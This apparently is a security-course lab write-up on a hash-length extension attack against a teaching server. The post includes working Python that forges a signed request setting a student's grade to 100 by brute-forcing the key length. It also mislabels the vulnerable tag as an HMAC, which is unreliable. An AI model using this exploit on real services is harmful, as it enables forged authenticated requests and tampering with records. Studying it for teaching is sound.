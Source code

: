 ```yaml
---
layout: post
title: Hash Length Extension Module
category: crypto
author: 'reo'
tags: python seclab hash
mathjax: 
---
```


In this lab, we implement a hash-length extension attack using a module created by
[Stefano Palazzo](https://github.com/stephenbradshaw/hlextend/blob/master/hlextend.py).

## Contents
{:.no_toc}

* Content
{:toc}

<br>

***

## System Setup

***

Our target is a server where only authorized users are supposed to update a student's grades.
A legitimate update would be done by sending a `GET` request with a query string which looks like

```
<url>?tag=82f667c5077f20550477b512f862f3b9bde0adaf73371cb6ff85feabc63cda49&sid=1234567890&mark=100
```

where `sid` is the student id of the student to update and `mark` is the value used to set tha grade.
`tag` is a SHA2 HMAC which the server uses to verify the authenticity of the request.
Here, the webapp assumes only authorized users are able to create the HMAC which corresponds
to a query which updates a student grade.

In order to see their own grades, students are given the tag which corresponds to their own
`sid` and they can send a query which looks something like

```
<url>?tag=72c890741cf747b72a7a55bb07c52d67410fb60396893210dc1388246d33b3f8&sid=1234567890
```

and only returns the current score. We show an example of how to exploit the hash-length extension
vulnerability.

<br>

***

## Updating the Hash Function State

***

Similar to our attacks in the cryptopals challenges which preceded this one, we need to update the
internal state of the hash function. Instead of doing so manually, we will use the aforementioned
`hlextend` module to help us

```python
from urllib.parse import urlparse, parse_qs, quote
import http.client
import hlextend

def attack(url):
    # parameter url is the attack url you construct
    parsed = urlparse(url)
    prefix_tag = parse_qs(parsed.query)['tag'][0]
    prefix_sid = parse_qs(parsed.query)['sid'][0]
    extend = '&sid=' + prefix_sid + '&mark=100'

    sha2 = hlextend.new('sha256')
    sha2.set_state(prefix_tag)
    sha2.update(extend.encode())
    ret_tag = sha2.hexdigest()
```

`set_state()` sets the internal state to what it would look like after producing the hash and
`update()` updates the internal state to include the string we want to append. We save the
digest this produces and all that remains is to guess at the length of the original message.

<br>

***

## Performing the Attack

***

Since we do not know the key size, we just brute force a few likely candidates, say, between 8 and 20.
For each of those, the module computes the sha2 padding for us and we
[quote](https://docs.python.org/dev/library/urllib.parse.html#urllib.parse.quote)
it so it is a safe URL to send.

```python
    for i in range(8, 21):
        ret_q = 'sid=' + prefix_sid + quote(sha2.padding(i + len("sid=" + prefix_sid))) + '&sid=' + prefix_sid + '&mark=100'
        q = "tag=" + ret_tag + "&" + ret_q
        # open a connection to the server
        httpconn = http.client.HTTPConnection(parsed.hostname, parsed.port)

        # issue server-API request
        httpconn.request("GET", "/?" + q)

        # httpresp is response object containing a status value and possible message
        httpresp = httpconn.getresponse()

        # valid request will result in httpresp.status value 200
        if (httpresp.status == 200):
            return parsed.scheme + "://" + parsed.netloc + parsed.path + "?" + q
```

This returns status `200` or `OK` which tells us our attack succeeded.

{% include lab_credits.md %}

